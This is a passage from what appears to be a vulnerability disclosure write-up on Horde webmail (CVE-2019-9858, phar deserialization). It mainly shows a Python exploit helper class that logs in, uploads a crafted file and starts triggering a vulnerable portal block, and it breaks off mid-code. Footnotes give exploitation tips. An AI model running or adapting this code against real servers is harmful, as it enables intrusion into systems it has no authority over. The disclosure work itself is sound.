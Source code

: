 [^phar-unserialization]: See [File Operation Induced Unserialization via the "phar://" Stream Wrapper](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf).

## Exploits

Both exploits need a common Python class that wraps the interaction with Horde:

```python
import re
import requests

class Horde():
    def __init__(self, base_url, username, password):
        self.base_url = base_url
        self.username = username
        self.password = password
        self.session = requests.session()
        self.token = None
        self._login()

    def _login(self):
        url = '{}/login.php'.format(self.base_url)
        data = {
            'login_post': 1,
            'horde_user': self.username,
            'horde_pass': self.password
        }
        response = self.session.post(url, data=data)
        token_match = re.search(r'"TOKEN":"([^"]+)"', response.text)
        assert (
            len(response.history) == 1 and
            response.history[0].status_code == 302 and
            response.history[0].headers['location'] == '/services/portal/' and
            token_match
        ), 'Cannot log in'
        self.token = token_match.group(1)

    def upload_to_tmp(self, filename, data):
        url = '{}/turba/add.php'.format(self.base_url)
        files = {
            'object[photo][img][file]': (None, filename),
            'object[photo][new]': ('x', data)
        }
        response = self.session.post(url, files=files)
        assert response.status_code == 200, 'Cannot upload the file to tmp'

    def include_remote_inc_file(self, path):
        # vulnerable block (alternatively 'trean:trean_Block_Mostclicked')
        app = 'trean:trean_Block_Bookmarks'

        # add one dummy bookmark (to be sure)
        url = '{}/trean/add.php'.format(self.base_url)
        data = {
            'actionID': 'add_bookmark',
            'url': 'x'
        }
        response = self.session.post(url, data=data)
        assert response.status_code == 200, 'Cannot add the bookmark'

        # add bookmark block
        url = '{}/services/portal/edit.php'.format(self.base_url)
        data = {
            'token': self.token,
            'row': 0,
            'col': 0,
            'action': 'save-resume',
```

[fix]: https://github.com/horde/Form/commit/f5fc41e9d3f1a7bc9371dda5d39ea7629b0030f3
[CVE-2019-9858]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9858
[^phar-extension]: Apparently it is not strictly needed to use the `.phar` extension, *any* non-empty extension will cause PHP to treat the file as PHAR if accessed via the `phar://` scheme.
[^three-blocks]: Actually the Git version comes with a third apparently vulnerable block (`Tagsearch.php`) but it is missing in the PEAR and Debian APT versions.
[^manual]: This cannot be done directly from the web page, either intercept the request or use the developer tools of the browser to change the value.
[`phar.readonly`]: http://php.net/phar.readonly